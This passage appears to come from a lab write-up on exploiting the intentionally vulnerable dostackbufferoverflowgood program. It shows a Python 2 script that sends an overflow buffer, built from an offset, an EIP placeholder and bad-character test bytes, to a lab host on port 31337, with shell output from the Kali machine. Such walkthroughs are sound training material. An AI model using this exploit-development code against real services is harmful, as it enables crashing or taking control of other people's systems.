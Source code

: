 ```python
#!/usr/bin/python2
import socket

try:
    print "\nSending evil buffer..."

    bufferSize = 2000
    offset = 146

    badchar_test = ""
    badchars = [0x00]

    for i in range(0x00, 0xFF+1):
        if i in badchars:
            continue
        badchar_test += chr(i)

    with open("badchar_test.bin", "wb") as f:
        f.write(badchar_test)

    buffer = ""
    buffer += "A" * (offset - len(buffer))
    buffer += "BBBB"
    buffer += badchar_test
    buffer += "C" * (bufferSize - len(buffer))
    buffer += "\n"

    s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)

    s.connect(("192.168.10.129", 31337))
    s.send(buffer)

    s.close

    print "\n Send buffer with size: " + str(len(buffer))

except:
    print "\n Could not connect"
```

We can use this python script to check for bad characters.

```bash
luc@kali:~/dostackbufferoverflowgood$ python2 bad.py
luc@kali:~/dostackbufferoverflowgood$ ls
badchar_test.bin  bad.py
luc@kali:~/dostackbufferoverflowgood$ python3 -m http.server
```

Running this software will create `badchar_test.bin` which contains all the characters that have been send over and should be in `ESP` now. We download this file on the Windows machine as `"C:\Users\User\Downloads\badchar_test.bin"`.
